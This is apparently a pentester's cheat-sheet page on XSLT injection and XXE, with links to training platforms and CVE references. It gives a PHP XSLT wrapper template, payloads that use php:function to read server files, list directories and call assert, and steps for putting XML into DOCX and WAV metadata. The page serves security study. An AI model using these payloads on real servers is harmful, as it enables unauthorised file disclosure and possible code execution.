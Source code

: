 # XML External Entity (XXE)

<hr class="sep-both">

## XSLT Transformations

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML, usually when transforming XML documents into HTML, another XML document, or PDF. If the XSLT parser is vulnerable, we may be able to execute code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<!-- add some payload here -->
</body>
</html>
```
</div><div>

While common PHP payloads are:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```

📚 Common XSLT parsers are: LibXSLT, Xalan, and Saxon.
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### Word Documents Metadata

Refer to [CVE-2019-13358](https://nvd.nist.gov/vuln/detail/CVE-2019-13358) for an example.

```ps
$ unzip xxx.docx
$ nano word/document.xml
$ zip yyy.docx word/document.xml
```
</div><div>

#### WAV File iXML Metadata

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

Refer to [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447) for an example.

```ps
$ cat xxx.wav
RIFFXXXXWAVEBBBBiXML<XML HERE>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Tools

* [XXEinjector](https://github.com/enjoiz/XXEinjector) <small>(1.6k ⭐, 2020 🪦)</small>
* [xxexploiter](https://github.com/luisfontes19/xxexploiter) <small>(0.6k ⭐, 2022 🪦)</small>
</div><div>
</div></div>